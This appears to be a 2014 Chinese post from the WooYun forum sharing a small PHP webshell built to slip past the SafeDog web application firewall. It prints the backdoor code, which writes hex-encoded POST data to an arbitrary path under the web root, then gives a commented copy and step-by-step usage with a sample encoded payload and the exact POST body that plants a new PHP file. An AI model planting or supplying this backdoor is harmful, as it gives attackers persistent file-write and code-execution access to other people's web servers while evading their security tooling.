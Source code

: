 php绕过安全狗检测的小马分享

zph | 2014-08-28 15:10


直接上代码：
  
    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"];
    $t=$_POST["b"];
    $tt="";
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2));
    @fwrite(fopen($p,"w"),$tt);
    echo "success!";
    ?>


分析利用&过狗：

    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"]; //定义$p为根目录的物理路径+$_POST["a"]的内容
    $t=$_POST["b"]; //定义$t为$_POST["b"]的内容
    $tt=""; //定义$tt为空
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2)); //for循环次数是$t长度/2，每循环一次就让$tt加上“%xx”这样的编码
    @fwrite(fopen($p,"w"),$tt); //写入文件地址是$p，内容是$tt
    echo "success!";
    ?>


利用方法：

将写入的内容用url编码，比如

    <?php phpinfo();?>

编码后为：

    %3C%3F%70%68%70%20%70%68%70%69%6E%66%6F%28%29%3B%3F%3E

去掉其中的%，得到：

    3C3F70687020706870696E666F28293B3F3E

然后访问后门，将POST内容改为：

    a=/111.php&b=3C3F70687020706870696E666F28293B3F3E

即可写入内容

过狗:
 ![test](./img/20140901-01.png)

 ![test](./img/20140901-02.png)


url:http://zone.wooyun.org/content/14846
